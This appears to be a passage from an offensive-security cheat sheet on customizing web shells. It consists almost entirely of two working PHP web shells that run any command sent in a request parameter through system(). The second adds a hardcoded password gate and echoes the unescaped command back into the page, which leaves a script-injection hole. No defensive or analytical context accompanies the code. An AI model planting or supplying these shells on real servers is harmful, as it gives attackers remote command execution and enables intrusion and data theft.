 ### Web Shell Customization

#### Custom PHP Web Shell

**Minimal PHP Shell:**
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
<html>
<body>
<form method="GET">
<input type="text" name="cmd" placeholder="Enter command">
<input type="submit" value="Execute">
</form>
</body>
</html>
```

**Advanced PHP Shell with Features:**
```php
<?php
session_start();
$password = "test123";

if(!isset($_SESSION['authenticated']) && $_POST['pass'] != $password) {
    echo '<form method="POST"><input type="password" name="pass"><input type="submit" value="Login"></form>';
    exit;
}
$_SESSION['authenticated'] = true;

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
<html>
<body>
<form method="GET">
<input type="text" name="cmd" value="<?php echo $_REQUEST['cmd']; ?>">
<input type="submit" value="Execute">
</form>
</body>
</html>
```
